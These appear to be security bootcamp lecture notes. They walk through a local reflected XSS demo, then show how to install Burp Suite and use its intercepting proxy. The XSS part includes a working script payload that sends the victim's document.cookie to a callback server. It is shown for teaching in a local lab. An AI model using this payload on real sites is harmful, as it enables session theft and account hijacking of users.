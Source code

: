 - Can be interactive if too much time left over
    - I've done a lot of demos, so here's your first challenge. This is a form that is vulnerable to XSS.
    - Just remember that this is local so do anything super bad to yourself.
- This is just a quick reflected XSS demo, it's also in your container if you want to follow along.

- `localhost:3004`

#### Writeup
```html
I'm <strong>STRONG</strong>!
```
- If you can put in tags, that means you can put in `<script>` tags...

- What can we do with XSS?
- We can get user cookies, redirect them to a site we can control, or even impersonate the user and execute actions as them.
- Since this is local we can use python's built in http server to get a callback.

- Start our callback site:
- `python -m http.server`
- If you have your own server, you can easily send the data to that as well.
- To get our callback we can enter into either of the forms with:
```html
<script>document.write('<img src="http://localhost:8000/?cookie=' + document.cookie + '" />')</script>
```


### Interactive Demo 3?
```
mkdir /headless/bootcamp/burp
chown default /headless/bootcamp/burp
burpsuite-install
# In the installer, select the /headless/bootcamp/burp directory for BOTH prompts
# Finish the install, ignore the warning about the sandbox browser
cd /headless/bootcamp/burp/BurpSuiteCommunity
./BurpSuiteCommunity
```
- **Note: to use this tool for https websites you have to install a certificate, but we aren't going to go over that process, you can do that on your own later**
- [Install burp certificates](https://support.portswigger.net/customer/portal/articles/1783075-installing-burp-s-ca-certificate-in-your-browser)
- **Note: a proxy switcher just makes it easier to switch off the intercepting proxy**
- [Set up proxy switcher for firefox with foxyproxy](https://howtotechglitz.com/using-burp-foxyproxy-to-easily-switch-between-proxy-settings-null-bytes-wonderhowto/)
- This tool is similar to Postman, but it is for a different purpose

#### Part 1 what is the proxy
- `127.0.0.1:8080` in the proxy tab.
- This tab handles all of the intercepted traffic, you get to view your request before you send it and can change it however you like.
- This is nice because it gives you a quick look into what the request is and if there is anything being sent from the website that is hidden.
- **Note** This can get crowded if you've got a lot of windows open, so make sure to open a fresh window or close your tabs.
- **Note** You can also forget that you have this on and so when you go to visit a page it will appear as if you can't connect to it because the request is stuck in burp.
- Editing a request
